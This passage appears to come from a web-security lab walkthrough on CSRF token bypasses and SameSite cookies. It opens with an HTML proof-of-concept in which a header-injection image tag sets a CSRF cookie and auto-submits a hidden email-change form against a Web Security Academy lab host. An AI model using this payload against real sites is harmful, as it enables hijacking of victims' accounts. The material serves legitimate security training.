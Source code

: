 Now let's create a proof of concept exploit as an HTML template, ensuring that CSRF input value is set to fake:

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="obscure@email.com">
    <input type="hidden" name="csrf" value="fake">
</form>
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

Make sure the email `input` value is not your own email. Click "Go to exploit server" and paste the above HTML in the "Body" section and click Store. If everything is alright, click "Deliver exploit to victim" to solve the lab. 

> NOTE: Seeing as how similar this lab is to the previous one, the walkthrough of it in OWASP Zed Attack Proxy is unnecessary and hence, not included. 

## Bypassing SameSite cookie restrictions

SameSite is a browser-based security feature that controls when cookies are included in requests made from one site to another. It offers some protection against a range of cross-site attacks, including CSRF, data leakage between sites, and certain CORS-related exploits.

As of 2021, Chrome automatically applies `SameSite=Lax` settings to cookies by default, unless the issuing site explicitly sets a different policy. This behavior is part of a proposed web standard, and it's expected that other major browsers will follow suit. Because of this, understanding how SameSite works --- and how attackers might bypass it --- is crucial for identifying and testing cross-site vulnerabilities effectively. 

This section will explain the mechanics of the SameSite attribute, introduce key terms and explore common bypass techniques that can allow attackers to perform CSRF or other cross-site attacks even when initial defenses appear to be in place.

## What is a site in the context of SameSite cookies?

In the context of SameSite cookie restrictions, a "site" is defined by the top-level domain (TLD) such as `.com` or `.net`, combined with the immediate subdomain, more commonly referred to as __TLD+1__. For example, in `app.example.com` the site is considered `example.com`.

When browsers determine whether a request is same-site or cross-site, they also take the URL scheme (HTTP vs HTTPS) into account. This means that even if the domain is the same, a request from `http://app.example.com` to `https://app.example.com` will usually be treated as cross-site. 

!["Site Definition"](site-definition.png "Site Definition")